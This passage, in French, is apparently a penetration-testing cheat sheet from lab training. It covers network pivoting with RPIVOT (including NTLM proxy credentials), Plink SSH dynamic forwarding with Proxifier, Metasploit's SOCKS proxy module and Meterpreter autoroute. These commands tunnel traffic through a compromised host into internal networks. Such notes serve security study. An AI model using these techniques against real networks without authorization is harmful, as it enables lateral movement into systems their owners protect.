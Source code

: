 Depuis machine attaquant

```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Depuis machine pivot (transférer le dossier complet RPIVOT)

```sh
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

Si authentification NTLM

```shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

Accéder au serveur

```shell
proxychains firefox-esr 172.16.5.135:80
```


## PLINK over SSH (PuTTY WINDOWS)

```cmd
plink -ssh -D 9050 ubuntu@10.129.15.50
```

A faire fonctionner avec proxyfier (Proxychains pour WINDOWS)-> https://www.proxifier.com/

Lancer Proxifier APRES Plink


## METASPLOIT

### Socks Proxy

Module SOCKS PROXY (version 4a et 5)

```msfconsole
use auxiliary/server/socks_proxy
```

Vérifier conf proxychains

```shell
tail -4 /etc/proxychains4.conf
```

Créer routes avec autoroute afin de router les paquets depuis la session vers le réseau cible

Depuis session Meterpreter

```meterpreter
run autoroute -s 172.16.5.0/23
```
